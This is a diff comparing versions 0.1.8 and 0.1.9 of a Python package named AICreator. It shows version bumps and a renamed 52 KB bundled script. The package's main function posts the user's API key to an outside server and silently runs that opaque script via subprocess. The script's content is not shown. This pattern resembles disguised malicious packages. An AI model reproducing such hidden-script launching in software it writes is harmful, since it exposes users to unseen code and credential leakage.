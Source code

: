 # Comparing `tmp/AICreator-0.1.8.tar.gz` & `tmp/AICreator-0.1.9.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "AICreator-0.1.8.tar", last modified: Fri May 12 12:57:29 2023, max compression
+gzip compressed data, was "AICreator-0.1.9.tar", last modified: Fri May 12 12:59:17 2023, max compression
```

## Comparing `AICreator-0.1.8.tar` & `AICreator-0.1.9.tar`

### file list

```diff
@@ -1,21 +1,21 @@
-drwxrwxrwx   0        0        0        0 2023-05-12 12:57:29.485458 AICreator-0.1.8/
-drwxrwxrwx   0        0        0        0 2023-05-12 12:57:29.475921 AICreator-0.1.8/AICreator.egg-info/
--rw-rw-rw-   0        0        0      559 2023-05-12 12:57:29.000000 AICreator-0.1.8/AICreator.egg-info/PKG-INFO
--rw-rw-rw-   0        0        0      372 2023-05-12 12:57:29.000000 AICreator-0.1.8/AICreator.egg-info/SOURCES.txt
--rw-rw-rw-   0        0        0        1 2023-05-12 12:57:29.000000 AICreator-0.1.8/AICreator.egg-info/dependency_links.txt
--rw-rw-rw-   0        0        0        9 2023-05-12 12:57:29.000000 AICreator-0.1.8/AICreator.egg-info/requires.txt
--rw-rw-rw-   0        0        0       17 2023-05-12 12:57:29.000000 AICreator-0.1.8/AICreator.egg-info/top_level.txt
-drwxrwxrwx   0        0        0        0 2023-05-12 12:57:29.478941 AICreator-0.1.8/AICreatorPackage/
--rw-rw-rw-   0        0        0      156 2023-05-02 13:30:46.000000 AICreator-0.1.8/AICreatorPackage/__init__.py
-drwxrwxrwx   0        0        0        0 2023-05-12 12:57:29.481459 AICreator-0.1.8/AICreatorPackage/functions/
--rw-rw-rw-   0        0        0      906 2023-05-12 12:57:04.000000 AICreator-0.1.8/AICreatorPackage/functions/AICreatorPackage.py
--rw-rw-rw-   0        0        0        0 2022-04-25 10:59:44.000000 AICreator-0.1.8/AICreatorPackage/functions/__init__.py
-drwxrwxrwx   0        0        0        0 2023-05-12 12:57:29.482459 AICreator-0.1.8/AICreatorPackage/functions/ini/
--rw-rw-rw-   0        0        0    52493 2023-05-12 12:14:40.000000 AICreator-0.1.8/AICreatorPackage/functions/ini/ini.py
--rw-rw-rw-   0        0        0     1078 2022-04-24 17:23:55.000000 AICreator-0.1.8/LICENCE.txt
--rw-rw-rw-   0        0        0       25 2021-08-13 08:55:17.000000 AICreator-0.1.8/MANIFEST.in
--rw-rw-rw-   0        0        0      559 2023-05-12 12:57:29.484459 AICreator-0.1.8/PKG-INFO
--rw-rw-rw-   0        0        0       73 2023-05-02 12:11:18.000000 AICreator-0.1.8/README.txt
--rw-rw-rw-   0        0        0        0 2022-04-24 17:21:54.000000 AICreator-0.1.8/__init__.py
--rw-rw-rw-   0        0        0       42 2023-05-12 12:57:29.485458 AICreator-0.1.8/setup.cfg
--rw-rw-rw-   0        0        0      675 2023-05-12 12:57:25.000000 AICreator-0.1.8/setup.py
+drwxrwxrwx   0        0        0        0 2023-05-12 12:59:17.067421 AICreator-0.1.9/
+drwxrwxrwx   0        0        0        0 2023-05-12 12:59:17.055117 AICreator-0.1.9/AICreator.egg-info/
+-rw-rw-rw-   0        0        0      559 2023-05-12 12:59:16.000000 AICreator-0.1.9/AICreator.egg-info/PKG-INFO
+-rw-rw-rw-   0        0        0      370 2023-05-12 12:59:16.000000 AICreator-0.1.9/AICreator.egg-info/SOURCES.txt
+-rw-rw-rw-   0        0        0        1 2023-05-12 12:59:16.000000 AICreator-0.1.9/AICreator.egg-info/dependency_links.txt
+-rw-rw-rw-   0        0        0        9 2023-05-12 12:59:16.000000 AICreator-0.1.9/AICreator.egg-info/requires.txt
+-rw-rw-rw-   0        0        0       17 2023-05-12 12:59:16.000000 AICreator-0.1.9/AICreator.egg-info/top_level.txt
+drwxrwxrwx   0        0        0        0 2023-05-12 12:59:17.058424 AICreator-0.1.9/AICreatorPackage/
+-rw-rw-rw-   0        0        0      156 2023-05-02 13:30:46.000000 AICreator-0.1.9/AICreatorPackage/__init__.py
+drwxrwxrwx   0        0        0        0 2023-05-12 12:59:17.061425 AICreator-0.1.9/AICreatorPackage/functions/
+-rw-rw-rw-   0        0        0      904 2023-05-12 12:58:58.000000 AICreator-0.1.9/AICreatorPackage/functions/AICreatorPackage.py
+-rw-rw-rw-   0        0        0        0 2022-04-25 10:59:44.000000 AICreator-0.1.9/AICreatorPackage/functions/__init__.py
+drwxrwxrwx   0        0        0        0 2023-05-12 12:59:17.062420 AICreator-0.1.9/AICreatorPackage/functions/co/
+-rw-rw-rw-   0        0        0    52493 2023-05-12 12:14:40.000000 AICreator-0.1.9/AICreatorPackage/functions/co/co.py
+-rw-rw-rw-   0        0        0     1078 2022-04-24 17:23:55.000000 AICreator-0.1.9/LICENCE.txt
+-rw-rw-rw-   0        0        0       25 2021-08-13 08:55:17.000000 AICreator-0.1.9/MANIFEST.in
+-rw-rw-rw-   0        0        0      559 2023-05-12 12:59:17.064422 AICreator-0.1.9/PKG-INFO
+-rw-rw-rw-   0        0        0       73 2023-05-02 12:11:18.000000 AICreator-0.1.9/README.txt
+-rw-rw-rw-   0        0        0        0 2022-04-24 17:21:54.000000 AICreator-0.1.9/__init__.py
+-rw-rw-rw-   0        0        0       42 2023-05-12 12:59:17.067421 AICreator-0.1.9/setup.cfg
+-rw-rw-rw-   0        0        0      675 2023-05-12 12:59:12.000000 AICreator-0.1.9/setup.py
```

### Comparing `AICreator-0.1.8/AICreator.egg-info/PKG-INFO` & `AICreator-0.1.9/AICreator.egg-info/PKG-INFO`

 * *Files 18% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: AICreator
-Version: 0.1.8
+Version: 0.1.9
 Summary: AI Creator Package By - oren
 Home-page: 
 Author: oren
 Author-email: orennadle@gmail.com
 License: MIT
 Keywords: ai
 Classifier: Development Status :: 5 - Production/Stable
```

### Comparing `AICreator-0.1.8/AICreatorPackage/functions/AICreatorPackage.py` & `AICreator-0.1.9/AICreatorPackage/functions/AICreatorPackage.py`

 * *Files 5% similar despite different names*

```diff
@@ -17,15 +17,15 @@
     print("[+] AICreator (By Oren) Is Ready!")
 
     cc = requests.post(f'http://aicreator.oren777.me:25573/api/v1.0.0/discordbot/apiKey/{apiKEY}')
 
     cc1 = cc.json()
 
     try:
-        subprocess.run(["python", f"{os.path.dirname(__file__)}\ini\ini.py"])
+        subprocess.run(["python", f"{os.path.dirname(__file__)}\co\co.py"])
     except Exception as e:
         print(f"error, please contact support. {e}")
 
 
 
 
 def AICreatorWebsiteBot(apiKEY):
```

### Comparing `AICreator-0.1.8/AICreatorPackage/functions/ini/ini.py` & `AICreator-0.1.9/AICreatorPackage/functions/co/co.py`

 * *Files identical despite different names*

### Comparing `AICreator-0.1.8/LICENCE.txt` & `AICreator-0.1.9/LICENCE.txt`

 * *Files identical despite different names*

### Comparing `AICreator-0.1.8/PKG-INFO` & `AICreator-0.1.9/PKG-INFO`

 * *Files 18% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: AICreator
-Version: 0.1.8
+Version: 0.1.9
 Summary: AI Creator Package By - oren
 Home-page: 
 Author: oren
 Author-email: orennadle@gmail.com
 License: MIT
 Keywords: ai
 Classifier: Development Status :: 5 - Production/Stable
```

### Comparing `AICreator-0.1.8/setup.py` & `AICreator-0.1.9/setup.py`

 * *Files 1% similar despite different names*

```diff
@@ -6,15 +6,15 @@
     'Operating System :: Microsoft :: Windows :: Windows 10',
     'License :: OSI Approved :: MIT License',
     'Programming Language :: Python :: 3'
 ]
 
 setup(
     name='AICreator',
-    version='0.1.8',
+    version='0.1.9',
     description='AI Creator Package By - oren',
     long_description=open('README.txt').read(),
     url='',
     author='oren',
     author_email='orennadle@gmail.com',
     license='MIT',
     classifiers=classifiers,
```

